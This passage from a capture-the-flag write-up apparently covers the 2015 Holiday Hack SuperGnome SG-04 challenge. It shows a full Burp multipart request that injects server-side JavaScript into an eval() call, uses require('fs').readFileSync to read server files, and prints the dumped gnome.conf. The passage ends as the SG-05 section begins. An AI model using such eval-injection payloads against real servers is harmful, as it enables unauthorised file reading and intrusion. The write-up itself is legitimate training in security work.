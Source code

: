 There is one major problem with this section of code, that <code>eval</code> is very dangerous. Let's see if we can leverage it to perform some Sever Side Javascript Injection (SSJS). Here is my input from *Burp*:

        POST /files HTTP/1.1
        Host: 52.192.152.132
        User-Agent: merry xmas you filthy animal
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Referer: http://52.192.152.132/files
        Cookie: sessionid=LRWk1JYQT2V8r6Xyu0th
        Connection: close
        Content-Type: multipart/form-data; boundary=---------------------------4590748351909491821833414779
        Content-Length: 356

        -----------------------------4590748351909491821833414779
        Content-Disposition: form-data; name="postproc"

        **require('fs').readFileSync('/gnome/www/files/gnome.conf')**
        -----------------------------4590748351909491821833414779
        Content-Disposition: form-data; name="file"; filename="foo.png"
        Content-Type: image/png

        bar
        -----------------------------4590748351909491821833414779--

Replacing the "postproc" call with our <code>readFileSync</code> command allows us
to read the contents of gnome.conf. Grabbing the pcap and image just required some
encoding due to the larger file sizes.

        require('fs').readFileSync('/gnome/www/files/20151203133815.zip','hex')

SG-04 gnome.conf:

        Gnome Serial Number: **BU22_1729_2716057**
        Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
        Allow new subordinates?: YES
        Camera monitoring?: YES
        Audio monitoring?: YES
        Camera update rate: 60min
        Gnome mode: SuperGnome
        Gnome name: SG-04
        Allow file uploads?: YES
        Allowed file formats: .png
        Allowed file size: 512kb
        Files directory: /gnome/www/files/


Vulnerability: SSJS - Server Side Javascript Injection<br />
Gnome Serial Number: **BU22\_1729\_2716057** = [https://en.wikipedia.org/wiki/Bender\_\(Futurama\)]

### SG-05

This one got me. I knew that it involved the code provided on the other SuperGnomes, sgnet and sgstatd.
